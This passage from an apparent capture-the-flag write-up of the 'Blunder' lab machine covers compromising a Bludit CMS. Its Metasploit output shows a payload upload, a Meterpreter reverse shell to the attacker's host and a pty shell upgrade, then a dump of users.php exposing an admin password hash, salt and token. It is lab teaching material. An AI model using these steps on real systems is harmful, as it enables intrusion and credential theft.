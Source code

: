 ```bash
[*] Uploading .htaccess...
[*] Executing eDHvHrHJgC.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.15.2:4444 -> 10.10.10.191:33208) at 2020-06-06 11:37:41 -0400
[+] Deleted .htaccess

meterpreter > sysinfo
Computer    : blunder
OS          : Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > 
```
## User
Nice! Now to get user. Looking around in the bludit files, we found an interesting file named users.php.
```bash
meterpreter > shell
Process 2983 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash");' #Full shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ ls
ls
thumbnails
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cd ..
cd ..
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ ls
ls
databases  pages  tmp  uploads  workspaces
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ cd databases
cd databases
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ ls
ls
categories.php  plugins       site.php    tags.php
pages.php       security.php  syslog.php  users.php
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
```